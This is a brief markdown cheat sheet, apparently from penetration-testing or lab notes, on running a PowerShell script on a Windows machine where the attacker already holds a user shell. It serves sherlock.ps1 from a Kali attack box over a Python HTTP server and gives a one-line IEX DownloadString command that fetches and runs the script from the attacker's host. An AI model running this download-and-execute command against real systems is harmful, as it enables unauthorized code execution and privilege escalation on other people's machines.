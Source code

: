 # How to download and execute a PS file on Windows machines
## Scenario
Kali attack machine: 10.10.16.18  
We have a user shell on a windows machine.  
We have a PowerShell file on Kali attack box that we want to run: sherlock.ps1  

## Get the file ready
Put it into /root/transfer/  
start HTTP server: *python3 -m http.server 80*  

## Download and run the file on windows machine  
To the user shell  
*echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.18/sherlock.ps1') | powershell -noprofile -*  
